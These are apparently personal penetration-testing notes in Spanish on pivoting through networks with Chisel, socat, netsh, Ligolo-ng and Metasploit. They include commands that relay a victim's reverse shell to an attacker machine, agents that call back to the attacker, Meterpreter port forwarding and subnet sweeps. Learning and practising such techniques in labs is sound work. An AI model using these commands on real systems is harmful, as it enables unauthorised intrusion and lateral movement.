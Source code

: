 # Pivoting

Propietario: Adrian Gisbert Cabello

# Chisel

Aplicación para hacer portforwarding

- Tenemos que tener chisel descomprimido (Linux) en Kali: `gunzip chisel_1.X.X_linux_arm64.gz`
- Le cambiamos el nombre a chisel para que sea más claro: `mv chisel_1.X.X_linux_arm64 chisel`
- Le damos permisos de ejecución: `chmod +x chisel`
- Comando para ponernos a escucha en el puerto 33 (máquina Kali): `./chisel server --reverse -p 33`
- Comando para ponerse en modo cliente tunelizando todos los puertos: `./chisel client 192.168.146.128:1234 R:socks`
- Comando para ponerse en modo cliente tunelizando 1 puerto: `./chisel client 192.168.146.128:1234 R:80:10.10.0.128:80`

# Socat

La idea es ejecutar Socat en la máquina intermedia (10.10.10.13) y obtener una reverse shell desde la máquina 2 (20.20.20.12) hasta la máquina intermedia (10.10.10.13) y gracias a socat poder enviar esa reverse shell a nuestra máquina Kali (10.10.10.12)

Vamos a compartir el archivo socat a la máquina intermedia (10.10.10.13) de la misma manera que hemos hecho para compartir chisel:

- Compartimos chisel a la primera máquina (10.10.10.13) con un servidor python3 desde la máquina Kali: `python3 -m http.server 5000`
- Descargamos en la máquina 10.10.10.13 con curl o wget el archivo socat
- Le damos permisos de ejecución: `chmod +x socat`
- Ejecutamos socat en la máquina intermedia: `./socat tcp-l:1111,fork,reuseaddr tcp:10.10.10.12:111`
    - Otro comando: `./socat TCP-LISTEN:1111,fork TCP:10.10.10.1:33`

- Esto significa que la reverse shell que reciba la máquina intermedia por el puerto 1111, lo va a enviar a nuestra máquina atacante (Kali) por el puerto 111
- Aconsejable hacerlo con los mismos números de cada máquina, si es la máquina 4: `./socat tcp-l:4444,fork,reuseaddr tcp:30.30.30.12:`444
- Nos tenemos que poner con netcat en nuestra máquina Kali y ponernos en escucha por el puerto 111: `nc -lvnp 111`

# Windows Netsh

**En el comando se configuran 4 parámetros, cada uno de ellos, sirve para lo siguiente:**

- **`listenport` –> Especificamos el puerto en el que Windows escuchará y que servirá como tunneling para la dirección y puerto que conectemos.**
- **`listenaddress` –> Especificamos la dirección de red en la que escuchará el puerto especificado en `listenport`. Esto indicará la interfaz en la que se escuchará.**
- **`connectport` –> Especificamos el puerto de la dirección a la que queremos llegar**
- **`connectaddress` –> Especificamos la dirección a la que queremos llegar**

```jsx
**netsh interface portproxy add v4tov4 listenport=<puerto a escuchar> listenaddress=<direccion a escuchar> connectport=<puerto a conectar> connectaddress=<direccion a conectar>**
```

Si ahora usamos el comando `netsh interface portproxy show all` podremos ver que se ha creado el túnel

Si quisiéramos eliminar/resetear la tabla de netsh (también se eliminan los registros), podríamos hacerlo con el siguiente comando: `netsh interface portproxy reset`

# Ligolo

Descargamos Ligolo-ng desde github: 

[https://github.com/nicocha30/ligolo-ng](https://github.com/nicocha30/ligolo-ng)

Necesitaremos dos archivos, el **agent** y el **proxy**

- Agent Windows x64: https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_agent_0.5.2_windows_amd64.zip
- Proxy Linux x64: https://github.com/nicocha30/ligolo-ng/releases/download/v0.5.2/ligolo-ng_proxy_0.5.2_linux_amd64.tar.gz

Ahora tenemos que descomprimir el agente `7z x ligolo-agent.zip` y el proxy `tar -xvf ligolo-proxy.tar`, le damos permisos de ejecución al proxy `chmod +x proxy` y lo movemos al directiorio de binarios `sudo mv proxy /usr/bin`

Primero pondremos en marcha el proxy:

- `sudo ip tuntap add user kali mode tun ligolo`
- `sudo ip link set ligolo`
- Hacemos un `ifconfig` para ver que se haya creado la interfaz correctamente
- En la máquina Kali: `proxy -selfcert`
    - Nos dice que está escuchando en el puerto 11601 (por ejemplo)
- Compartimos el agente a la máquina víctima
- Ejecutamos el agente: `agent.exe -connect LHOST:LPORT -retry -ignore-cert`
    - `agent.exe -connect 172.16.40.5:11601 -retry -ignore-cert`
- Ahora en el server proxy nos aparecerá que se ha conectado un host, escribimos: `session`
- Escribimos el número de la sesión que se haya creado y presionamos enter
- Nos aseguramos de las redes escribiendo `ifconfig`
- Escribimos `start`
- En una nueva terminal escribimos: `sudo ip route add 10.10.1.0/24 dev ligolo`
    - La ip es el nuevo rango de IP’s que anteriormente no teníamos acceso
- Si ahora hacemos un `ip route` confirmamos que se haya creado la ruta
- Ya podemos hacer ping a la máquina que no teníamos visibilidad anteriormente

# Metasploit

Para mediante una reverse shell conectarse a través de metasploit y luego poder upgradear a una sesión meterpreter, primero nos ponemos en modo escucha en metasploit con `use multi/handler`, ponemos el LHOST y LPORT y le damos a `run`. Una vez estamos en escucha, activamos la reverse shell en la máquina víctima y ya tendremos una sesión normal.

Ahora podemos hacer 2 cosas para levear la sesión a una sesión meterpreter:

1. `sessions -u 1` (tenemos que cambiar el 1 por el número de la sesión que queramnos levear)

2. `use shell_to_meterpreter`, ponemos el LHOST, LPORT y la SESSION. (una vez rellenados los datos le damos a `run` y se nos creará una nueva sesión meterpreter)

Cuando estamos dentro de una máquina, para saber los adaptadores de red que tiene:		**`*ip a*`** (linux) 	|	`ifconfig` (linux)		|	**`*ipconfig*`** (windows)   | `arp -a` (win/linux)

Para listar servicios conectados con otra máquina: 	`ss -natup`

Para hacer un escaneo de redes IP, podemos usar nmap o si no funcionara un script:		**`*nmap -sn 192.168.X.X/24*`**

Script Linux Ping Sweep: `for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done`

Scripts Windows Ping Sweep: `for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.`

Para añadir una ip a la tabla de rutas de nuestra máquina atacante y poder ver otros equipos en esas subredes podemos hacerlo de 3 maneras:

1. `use multi/manage/autoroute ----- show options ----- set SESSION X`

2. **`*run autoroute -s 192.168.X.0/24*`**	(aquí pondremos la nueva ip encontrada y su máscara de red, en este caso es /24 porque era 255.255.255.0)

3. Para añadir un segmento de red en meterpreter: `route add 192.168.X.0/24 2` (añadimos la ruta a la sesión 2)

Para visualizar la tabla de rutas: `route`

Para eliminar una ruta en la tabla de rutas: `route del 192.168.X.0/24 2` (borramos una ruta en la sesión 2)

Ya teniendo una shell en meterpreter (***shell***) en el caso de estar conectados a una víctima windows y si es linux no hace falta, podemos usar ***if/ip***config para ver los adaptadores de red que tiene la máquina, si tiene más de uno es que hay más máquinas que estan dentro de una subred.

Con el comando **`*arp -a*`**, vemos un mapa de todas las ip que está viendo la máquina víctima (podemos averiguar otras máquinas que esten en la subred).

Para comprobar la route_table tenemos que poner en ***background*** la sesión de meterpreter y cuando estemos en el msfconsole		→		**`*route print*`**

Para hacer escaneo de puertos en msfconsole:		**`*use auxiliary/scanner/portscan/tcp*`**		→		**`*show options*`**		→		**`*set rhost <ip del equipo en la subred>***`

→		**`*set ports 1-65000*`** (si queremos menos puertos y más rápido, p.ej: 1-1000)

Para hacer un port_forwarding en meterpreter:		**`*portfwd add -l 2233 -p 445 -r 192.168.224.X*`**		(significa que por nuestro puerto 2233 de la máquina atacante, veremos el puerto 445 de la máquina víctima

Para listar los puertos que hemos hecho port_forwarding:		**`*portfwd list*`**

Ahora podemos hacer un escaneo en nmap desde el terminal al puerto que hemos añadido:		**`*nmap -p2233 localhost*`**	o 	un escaneo más exaustivo	**`*nmap -sSCV -p2233 localhost*`**

[Little Pivoting Example](Pivoting%204774fa8d403845fb869daeb9854c3f03/Little%20Pivoting%20Example%20aa3eba8138ba49edb888e28dcf5816fb.md)